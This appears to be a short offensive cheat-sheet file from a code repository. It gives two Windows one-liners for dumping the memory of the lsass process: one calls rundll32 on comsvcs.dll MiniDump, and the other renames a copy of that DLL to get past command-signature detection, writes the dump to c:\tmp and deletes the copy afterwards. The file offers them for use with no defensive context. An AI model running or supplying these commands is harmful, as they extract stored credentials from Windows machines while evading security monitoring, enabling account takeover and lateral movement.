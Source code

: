 ### dump lsass process
```
rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id <fullPath>\lsassdump.dmp full
```

### bypass command signature
```
$id = Get-Process lsass; cd c:\tmp; copy C:\Windows\System32\comsvcs.dll <newName>.dll; rundll32.exe <newName>.dll, MiniDump $id.Id c:\tmp\<file>.dmp full; Wait-Process -Id (Get-Process rundll32).id; del <newName>.dll;
```

